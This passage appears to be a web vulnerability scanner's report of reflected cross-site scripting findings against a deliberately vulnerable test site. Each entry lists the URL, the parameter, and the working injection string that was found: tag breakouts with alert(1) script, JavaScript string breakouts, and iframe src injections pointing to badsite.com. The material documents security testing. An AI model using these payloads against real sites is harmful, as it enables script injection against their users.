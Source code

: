   * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/css_style_font_value%3Fq=%253C%252Fstyle%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Cstyle%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</style><scrIpt>alert(1);</scRipt><style>`
  * Evidence: `</style><scrIpt>alert(1);</scRipt><style>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/css_style_value%3Fq=%253C%252Fstyle%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Cstyle%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</style><scrIpt>alert(1);</scRipt><style>`
  * Evidence: `</style><scrIpt>alert(1);</scRipt><style>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/head%3Fq=%253C%252Fhead%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Chead%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</head><scrIpt>alert(1);</scRipt><head>`
  * Evidence: `</head><scrIpt>alert(1);</scRipt><head>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/iframe_attribute_value%3Fq=%2527+src%253Dhttp%253A%252F%252Fbadsite.com
  * Method: `GET`
  * Parameter: `q`
  * Attack: `' src=http://badsite.com`
  * Evidence: `' src=http://badsite.com`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/iframe_srcdoc%3Fq=%2522+src%253Dhttp%253A%252F%252Fbadsite.com
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" src=http://badsite.com`
  * Evidence: `" src=http://badsite.com`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/js_assignment%3Fq=%253C%252Fscript%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Cscript%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</script><scrIpt>alert(1);</scRipt><script>`
  * Evidence: `</script><scrIpt>alert(1);</scRipt><script>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/js_comment%3Fq=%2522%253Balert%25281%2529%253B%2522
  * Method: `GET`
  * Parameter: `q`
  * Attack: `";alert(1);"`
  * Evidence: `";alert(1);"`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/js_eval%3Fq=%2522%253Balert%25281%2529%253B%2522
  * Method: `GET`
  * Parameter: `q`
  * Attack: `";alert(1);"`
  * Evidence: `";alert(1);"`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/js_quoted_string%3Fq=%2522%253Balert%25281%2529%253B%2522
  * Method: `GET`
  * Parameter: `q`
  * Attack: `";alert(1);"`
  * Evidence: `";alert(1);"`
  * Other Info: ``